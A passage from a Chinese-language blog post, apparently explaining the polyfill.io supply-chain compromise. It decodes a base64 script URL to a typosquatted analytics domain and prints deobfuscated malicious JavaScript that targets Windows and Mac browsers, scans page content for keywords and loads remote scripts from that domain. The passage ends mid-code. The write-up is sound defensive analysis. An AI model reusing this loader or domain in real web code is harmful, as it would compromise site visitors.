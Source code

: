 
在 Mac 跟 Windows 上，而且有帶 referrer 的網頁才會觸發，會去載入一個 script，而 script 的 src 是 `aHR0cHM6Ly93d3cuZ29vZ2llLWFuYWl5dGljcy5jb20vZ3RhZ3MuanM=` base64 解碼之後的結果：

```
https://www.googie-anaiytics.com/gtags.js
```

乍看之下會想說：「這不就是 Google Analytics 嗎？有什麼特別？」，但更仔細看，會看到 `googie` 跟 `anaiytics` 這些偽裝的單字，顯然是個惡意 domain。

而這個檔案裡的程式碼理所當然經過了混淆：

![惡意 JavaScript 內容](/img/stop-using-polyfill-io/p4.png)

但因為不太用心，是找現成工具做的，所以我們可以用其他現成工具來還原：

1. https://obf-io.deobfuscate.io/
2. https://deobfuscate.relative.im/

可以還原成底下可讀性好了不少的形式，至少有些字串可以看：

``` js
function loadJS(_0x1fa6fb, _0x1802b4) {
  var _0x70d7c = document.createElement('script'),
    _0x505482 = _0x1802b4 || function () {}
  _0x70d7c.type = 'text/javascript'
  {
    _0x70d7c.onload = function () {
      _0x505482()
    }
  }
  _0x70d7c.src = _0x1fa6fb
  document.getElementsByTagName('head')[0].appendChild(_0x70d7c)
}
function isPc() {
  try {
    var _0x4ed75f =
        navigator.platform == 'Win32' || navigator.platform == 'Windows',
      _0x3f80bf =
        navigator.platform == 'Mac68K' ||
        navigator.platform == 'MacPPC' ||
        navigator.platform == 'Macintosh' ||
        navigator.platform == 'MacIntel'
    if (_0x3f80bf || _0x4ed75f) {
      return true
    } else {
      return false
    }
  } catch (_0x1793fe) {
    return false
  }
}
function checkKeywords(_0x3ab08e) {
  const _0x18dd4d = document.documentElement.innerHTML
  let _0x3cdba9 = false
  for (const _0xda2c7 of _0x3ab08e) {
    if (_0x18dd4d.indexOf(_0xda2c7) !== -1) {
      _0x3cdba9 = true
      const _0xd85bed = _0x18dd4d.indexOf(_0xda2c7),
        _0x267743 = _0x18dd4d.substring(_0xd85bed - 20, _0xd85bed + 20)
      break
    }
  }
  return _0x3cdba9
}
function vfed_update(_0x2723e2) {
  fetch('https://www.googie-anaiytics.com/keywords/vn-keyword.json')
    .then((_0x1204ac) => _0x1204ac.json())
```